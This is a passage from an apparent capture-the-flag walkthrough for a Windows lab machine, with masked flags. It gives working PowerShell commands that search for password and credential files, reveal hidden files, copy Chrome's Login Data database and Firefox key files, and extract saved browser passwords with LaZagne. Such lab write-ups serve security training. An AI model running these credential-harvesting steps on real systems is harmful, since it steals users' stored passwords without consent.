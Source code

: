 **FLAG{P***************0}** - Found in wifi.txt

```powershell
# Email/password files
Get-ChildItem -Path C:\ -Recurse -Include "*password*","*email*","*credential*" -ErrorAction SilentlyContinue
type C:\Users\Public\Documents\Passwords\email.txt
```

**FLAG{F***************8}** - Found in email.txt

### Step 3.5: Hidden Files

```powershell
# Show hidden files
Get-ChildItem C:\WorkFiles -Force -Attributes Hidden
Get-ChildItem C:\ -Recurse -Hidden -ErrorAction SilentlyContinue | Where-Object {$_.Name -like ".*"}

# Check with attrib
attrib /s /d C:\WorkFiles\*
cmd /c "dir /a:h C:\WorkFiles"

# Read hidden files
Get-Content C:\WorkFiles\.flag -Force
```

**FLAG{S***************2}** - Found in hidden .flag file

## Phase 4: Browser and Application Data

### Step 4.1: Browser Credential Extraction

Workstations store browser passwords:

```powershell
# Chrome profile location
$chromePath = "$env:LOCALAPPDATA\Google\Chrome\User Data\Default"
ls $chromePath

# Copy Login Data for analysis
Copy-Item "$chromePath\Login Data" C:\temp\chrome_login.db

# Firefox profile
$firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles"
Get-ChildItem $firefoxPath -Recurse -Include "logins.json","key*.db"
```

To extract passwords:
```bash
# Transfer chrome_login.db to Kali
# Open with SQLite browser
sqlitebrowser chrome_login.db
# Check 'logins' table

# Or use LaZagne
python laZagne.py browsers
```
